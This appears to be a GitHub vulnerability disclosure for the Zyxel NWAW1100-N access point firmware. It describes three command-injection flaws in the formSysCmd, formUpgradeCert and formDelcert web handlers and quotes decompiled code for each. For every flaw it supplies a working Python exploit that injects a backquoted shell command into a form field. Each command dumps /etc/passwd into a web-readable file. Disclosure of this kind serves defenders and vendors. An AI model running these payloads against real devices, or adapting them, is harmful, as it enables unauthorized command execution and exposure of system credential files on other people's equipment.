 ## zyxel NWAW1100-N rce

offical website：https://www.zyxel.cn/

model ：NWAW1100-N 

Firmware Version: 1.00(AACE.1)C0

introduction：https://prodotti.zyxel.it/USERSGUIDE/ZYXNWA-1100-N.pdf

NWAW1100-N is an Access Point produced by zyxel. Through reverse analysis, it is found that it has the following three command execution vulnerabilities.
![7593e17eb3feae2d98250046e4ab4bf](./zyxel NWAW1100-N rce.assets/7593e17eb3feae2d98250046e4ab4bf.jpg)
![image](https://github.com/user-attachments/assets/6fcbb93d-d04e-4f77-933d-68b5e23688ae)
![image](https://github.com/user-attachments/assets/5f0ee271-0a30-45a6-ac87-8d5d3a724202)




#### Vulnerability 1

##### function formSysCmd

![image](https://github.com/user-attachments/assets/b06ed648-2225-4133-ad01-fada8a0e36e2)


`sysCmd` as a parameter can be exploited by malicious attackers to construct command execution. 

```
    snprintf(v5, 100, "%s 2>&1 > %s", Var, "/tmp/syscmd.log");
    system(v5);
```

The `var` variable first receives the value of `sysCmd`, and then is concatenated and passed to the `system` function for execution.

##### exp

```python
import requests

url = "http://192.168.1.2:80/goform/formSysCmd"
headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://192.168.1.2", "Connection": "close", "Referer": "http://192.168.1.2/sys_system.asp", "Upgrade-Insecure-Requests": "1"}
data = {"sysCmd": "`cat /etc/passwd > /var/webpages/test.css`"}
requests.post(url, headers=headers, data=data)
```

![image](https://github.com/user-attachments/assets/63dd2830-8a20-4b9a-89dd-8771ab37bf2d)




#### Vulnerability 2

##### function formUpgradeCert

![image](https://github.com/user-attachments/assets/ea311c66-dc72-4891-a5cf-de80afe13439)


```
 ......
 Var = websGetVar(a1, "upname", (int)&byte_43D298);
 ......
 sprintf(v9, "mv %sUnknowing.pfx %s%s", "/var/cert/", "/var/cert/", Var);
 system(v9);
 ......
```

Here the Var variable accepts the upname argument, and then concatenates the command to execute the system function. There is no validation here, so it can be bypassed with backquotes, resulting in command execution vulnerabilities

![image](https://github.com/user-attachments/assets/88c1ce3b-cb32-47b4-86e0-a49abe1180ca)


Here, because there is some processing of the Var variable, the character 'aaaa' is added before and after the payload

##### exp

```
import requests

url = "http://192.168.1.2:80/goform/formUpgradeCert"
headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://192.168.1.2", "Connection": "close", "Referer": "http://192.168.1.2/sys_system.asp", "Upgrade-Insecure-Requests": "1"}
data = {"upname": "aaaaa`cat /etc/passwd > /var/webpages/test222.css`aaaaa"}
requests.post(url, headers=headers, data=data)
```

![image](https://github.com/user-attachments/assets/255fcc5d-4bd2-4e03-9ea3-6624da9c9952)


#### Vulnerability 3

##### function formDelcert

![image](https://github.com/user-attachments/assets/eedb4419-f89f-4944-b4c6-94e94d6ee723)


Here the var variable takes the value of the cert parameter and then concatenates the command behind it to execute the system function.

exp

```
import requests

url = "http://192.168.1.2:80/goform/formDelcert"
headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://192.168.1.2", "Connection": "close", "Referer": "http://192.168.1.2/sys_system.asp", "Upgrade-Insecure-Requests": "1"}
data = {"certs": "`cat /etc/passwd > /var/webpages/test333.css`"}
requests.post(url, headers=headers, data=data)
```

![image](https://github.com/user-attachments/assets/8a090b36-52f9-46b8-b3ca-1ca710d66360)
